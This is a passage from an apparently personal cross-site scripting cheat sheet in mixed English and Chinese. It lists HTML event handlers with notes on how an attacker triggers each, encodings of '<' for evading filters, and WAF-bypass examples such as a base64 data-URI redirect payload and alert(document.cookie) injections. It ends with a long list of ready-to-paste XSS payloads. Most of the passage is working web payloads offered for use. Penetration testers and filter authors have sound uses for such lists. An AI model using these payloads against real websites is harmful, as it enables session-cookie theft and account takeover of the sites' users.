75. `onProgress()` (attacker would use this as a flash movie was loading)
76. `onPropertyChange()` (user or attacker would need to change an element property)
77. `onReadyStateChange()` (user or attacker would need to change an element property)
78. `onRedo()` (user went forward in undo transaction history)
79. `onRepeat()` (the event fires once for each repetition of the timeline, excluding the first full cycle)
80. `onReset()` (user or attacker resets a form)
81. `onResize()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
82. `onResizeEnd()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
83. `onResizeStart()` (user would resize the window; attacker could auto initialize with something like: `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
84. `onResume()` (the onresume event fires on every element that becomes active when the timeline resumes, including the body element)
85. `onReverse()` (if the element has a repeatCount greater than one, this event fires every time the timeline begins to play backward)
86. `onRowsEnter()` (user or attacker would need to change a row in a data source)
87. `onRowExit()` (user or attacker would need to change a row in a data source)
88. `onRowDelete()` (user or attacker would need to delete a row in a data source)
89. `onRowInserted()` (user or attacker would need to insert a row in a data source)
90. `onScroll()` (user would need to scroll, or attacker could use the `scrollBy()` function)
91. `onSeek()` (the onreverse event fires when the timeline is set to play in any direction other than forward)
92. `onSelect()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
93. `onSelectionChange()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
94. `onSelectStart()` (user needs to select some text - attacker could auto initialize with something like: `window.document.execCommand("SelectAll");`)
95. `onStart()` (fires at the beginning of each marquee loop)
96. `onStop()` (user would need to press the stop button or leave the webpage)
97. `onStorage()` (storage area changed)
98. `onSyncRestored()` (user interrupts the element’s ability to play its media as defined by the timeline to fire)
99. `onSubmit()` (requires attacker or user submits a form)
100. `onTimeError()` (user or attacker sets a time property, such as dur, to an invalid value)
101. `onTrackChange()` (user or attacker changes track in a playList)
102. `onUndo()` (user went backward in undo transaction history)
103. `onUnload()` (as the user clicks any link or presses the back button or attacker forces a click)
104. `onURLFlip()` (this event fires when an Advanced Streaming Format (ASF) file, played  by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag,  processes script commands embedded in the ASF file)
105. `seekSegmentTime()` (this is a method that locates the specified point on the element’s  segment time line and begins playing from that point. The segment  consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

#### Character Escape Sequences

> All the possible combinations of the character “<” in HTML and JavaScript. Most of these won’t render out of the box, but many of them can get rendered in certain circumstances as seen above.

    <
    %3C
    &lt
    &lt;
    &LT
    &LT;
    &#60
    &#060
    &#0060
    &#00060
    &#000060
    &#0000060
    &#60;
    &#060;
    &#0060;
    &#00060;
    &#000060;
    &#0000060;
    &#x3c
    &#x03c
    &#x003c
    &#x0003c
    &#x00003c
    &#x000003c
    &#x3c;
    &#x03c;
    &#x003c;
    &#x0003c;
    &#x00003c;
    &#x000003c;
    &#X3c
    &#X03c
    &#X003c
    &#X0003c
    &#X00003c
    &#X000003c
    &#X3c;
    &#X03c;
    &#X003c;
    &#X0003c;
    &#X00003c;
    &#X000003c;
    &#x3C
    &#x03C
    &#x003C
    &#x0003C
    &#x00003C
    &#x000003C
    &#x3C;
    &#x03C;
    &#x003C;
    &#x0003C;
    &#x00003C;
    &#x000003C;
    &#X3C
    &#X03C
    &#X003C
    &#X0003C
    &#X00003C
    &#X000003C
    &#X3C;
    &#X03C;
    &#X003C;
    &#X0003C;
    &#X00003C;
    &#X000003C;
    \x3c
    \x3C
    \u003c
    \u003C


**常用属性：**
  src
  action
  href
  data
  content 
  anytag

  **javascript弹窗函数：**
  alert()
  confirm()
  prompt() 
  write()
  setTimeout()





- ### WAF(⑧懂)

**Stored XSS**

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

**Reflected XSS in Javascript**

```
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

**DOM-based XSS**

```
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

**XSS via request Redirection**

- Vulnerable code:

```
...
header('Location: '.$_GET['param']);
...
```

As well as:

```
..
header('Refresh: 0; URL='.$_GET['param']); 
...
```

- This request will not pass through the WAF:

```
/?param=<javascript:alert(document.cookie>)
```

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

```
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

例：

> - `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
> - `<Video> <source onerror = "javascript: alert (XSS)">`
> - `<Input value = "XSS" type = text>`
> - `<applet code="javascript:confirm(document.cookie);">`
> - `<isindex x="javascript:" onmouseover="alert(XSS)">`
> - `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
> - `"><img src="x:x" onerror="alert(XSS)">`
> - `"><iframe src="javascript:alert(XSS)">`
> - `<object data="javascript:alert(XSS)">`
> - `<isindex type=image src=1 onerror=alert(XSS)>`
> - `<img src=x:alert(alt) onerror=eval(src) alt=0>`
> - `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
> - `<iframe/src="data:text/html,<svg onload=alert(1)>">`
> - `<meta content=" 1  ; JAVASCRIPT: alert(1)" http-equiv="refresh"/>`
> - `<svg><script xlink:href=data:,window.open('https://www.google.com/')></script`
> - `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
> - `<iframe src=javascript:alert(document.location)>`
> - `<form><a href="javascript:\u0061lert(1)">X`
> - `</script><img/*%00/src="worksinchrome:prompt(1)"/%00*/onerror='eval(src)'>`
> - `<style>//*{x:expression(alert(/xss/))}//<style></style>`
> - On Mouse Over
> - `<img src="/" =_=" title="onerror='prompt(1)'">`
> - `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>ClickMe`
> - `<script x> alert(1) </script 1=2`
> - `<form><button formaction=javascript:alert(1)>CLICKME`
> - `<input/onmouseover="javaSCRIPT:confirm(1)"`
> - `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
> - `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `













